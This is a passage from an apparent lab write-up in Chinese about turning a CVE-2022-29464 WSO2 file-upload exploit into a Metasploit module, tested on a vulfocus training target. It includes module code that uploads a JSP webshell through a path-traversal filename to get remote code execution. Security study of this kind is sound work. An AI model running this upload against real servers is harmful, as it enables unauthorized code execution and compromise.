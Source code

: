         return True


    def run(args):
        try:
            # dependency check
            if dependencies_missing:
                module.log('Module dependency (requests) is missing, cannot continue', level='error')
                return

            base_url = find_base_url(args)
            shell = make_shell()
            files = {f"../../../../repository/deployment/server/webapps/authenticationendpoint/abc.jsp": shell}
            url = base_url

            module.log('File: abc.jsp', level='good')

            if exploit(url,files) :
                module.log('Exploit completed', level='good')    
            else:
                module.log('Exploit failed',level='error')

        except Exception as e:
            module.log(str(e), level='error')


    if __name__ == '__main__':
        module.run(metadata, run)

    ```

## 在Metasploit中使用testcase, 對靶機掃描/利用成功之截圖
![](https://i.imgur.com/kWPJGiP.png)

:::warning
* 建議:
    在 Metasploit 使用 testcase 之前可以先確認用 python POC 是可以成功的，因為:
    1. 可能會有下圖的錯誤`(可能是訪問次數過多被禁止訪問，或是http連接太多等等的原因)`
    2. 使用 vulfocus 啟用的 images 有 30 分鐘的時間限制，要確定時間沒超過或是要記得重開一次，並且要注意 ==port 可能會改變==。
:::
![](https://i.imgur.com/XfvAzyX.png)


-----
### 參考資料
1. [Docker運行vulfocus漏洞靶場](https://www.codegarden.cn/article/4651/)
2. [（CVE-2022-29464)WSO2文件上传漏洞复现](https://cn-sec.com/archives/1010525.html)
3. [WSO2 文件上传漏洞复现（CVE-2022-29464）](https://www.cnblogs.com/lwh01/p/16193991.html)
4. [WSO2 Arbitrary File Upload to RCE - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/wso2_file_upload_rce)
5. [hakivvi/CVE-2022-29464](https://github.com/hakivvi/CVE-2022-29464/)

---
## 後續: 試著改寫為exploit script
* 向元裕老師詢問之後，發現: 因為 auxiliary/scanner 著重在 "無害且具驗證性" 的確認漏洞是否存在，而我有上傳惡意的 jsp 檔案並 RCE，所以其實可以改寫成exploit script。
* 但在改寫後試著進行漏洞利用，有成功上傳 webshell 並 RCE ，但卻==沒有 active session== (如下圖)，目前**還不了解原因出在哪裡** ，還需要更進一步的學習。
* 我將改寫後的檔案放在 `.msf4/modules/exploits/multi/http` 裡面，並命名為 `wso2.py` 
>為了跟上面寫好的 `wso2_file_upload_rce.py` 做區隔故暫時以 `wso2.py` 做命名
